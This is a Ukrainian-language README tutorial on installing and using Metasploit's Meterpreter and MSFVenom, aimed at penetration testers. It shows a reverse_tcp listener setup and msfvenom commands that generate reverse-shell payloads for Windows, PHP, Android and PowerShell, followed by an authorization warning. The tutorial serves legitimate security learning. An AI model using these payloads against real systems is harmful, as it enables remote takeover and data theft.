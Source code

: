 # meterpreter-experience

## Meterpreter

### Вступ

Meterpreter - це потужний інструмент, який постачається з Metasploit Framework. Він використовується для отримання віддаленого доступу до систем та виконання різних завдань на скомпрометованому комп'ютері. Цей документ надасть вам інформацію щодо встановлення та використання Meterpreter.

### Встановлення

Для використання Meterpreter, вам потрібно мати встановлений Metasploit Framework на вашій системі. Встановлення Metasploit може відрізнятися залежно від вашої операційної системи.

#### Linux

```bash
sudo apt-get update
sudo apt-get install metasploit-framework
```

#### macOS

```bash
brew install metasploit
```

#### Windows

Завантажте інсталятор з офіційного веб-сайту Metasploit: [Завантаження Metasploit](https://www.metasploit.com/download)

### Використання Meterpreter

#### Запуск Meterpreter

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST ваш_ip_адреса
set LPORT ваш_порт
exploit
```

#### Основні команди Meterpreter

1. **`help`**: Вивести список доступних команд.
2. **`sysinfo`**: Вивести інформацію про операційну систему та апаратне забезпечення.
3. **`shell`**: Запустити командний рядок операційної системи.
4. **`upload`**: Завантажити файл на віддалений комп'ютер.
5. **`download`**: Завантажити файл з віддаленого комп'ютера.

Більше команд та функцій можна знайти в [офіційній документації Meterpreter](https://www.metasploitunleashed.com/meterpreter-basics/).

## MSFVenom

### Вступ

MSFVenom - це інструмент у складі Metasploit Framework, який використовується для створення власних шкідливих файлів. Ви можете генерувати різні типи файлів, такі як виконувані файли, скрипти, експлойти та інше. Цей документ надасть вам інформацію щодо встановлення та використання MSFVenom.

### Встановлення

MSFVenom встановлюється разом із Metasploit Framework. Переконайтеся, що ви маєте Metasploit встановлено на вашій системі, як показано в попередньому розділі.

### Використання MSFVenom

#### Згенерувати код оболонки для Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ваш_ip_адреса LPORT=ваш_порт -f exe > payload.exe
```

#### Згенерувати код оболонки для PHP

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=ваш_ip_адреса LPORT=ваш_порт -f raw > payload.php
```

#### Згенерувати код оболонки для Android

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=ваш_ip_адреса LPORT=ваш_порт -o payload.apk
```

#### Згенерувати код оболонки для PowerShell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ваш_ip_адреса LPORT=ваш_порт -f psh -o payload.ps1
```

Більше параметрів та опцій можна знайти в [офіційній документації MSFVenom](https://www.metasploitunleashed.com/msfvenom/).

## Питання безпеки

Важливо пам'ятати, що використання Meterpreter та MSFVenom для несанкціонованого доступу до систем або мереж може бути незаконним і призвести до правових наслідків. Всі дії повинні бути виконані лише за наявності належного дозволу.

Докладніше вивчайте офіційні матеріали Metasploit та забезпечте належну авторизацію перед будь-якими скануваннями чи атаками.

Корисні ресурси:
- [Metasploit Unleashed](https://www.metasploitunleashed.com/)
- [Офіційна документація Metasploit](https://metasploit.help.rapid7.com/docs/metasploit-framework)
- [Офіційна документація MSFVenom](https://www.metasploitunleashed.com/msfvenom/)

## Ліцензія

Ця документація ліцензується згідно з [ліцензією](https://github.com/jj975/meterpreter-experience/blob/main/LICENSE).
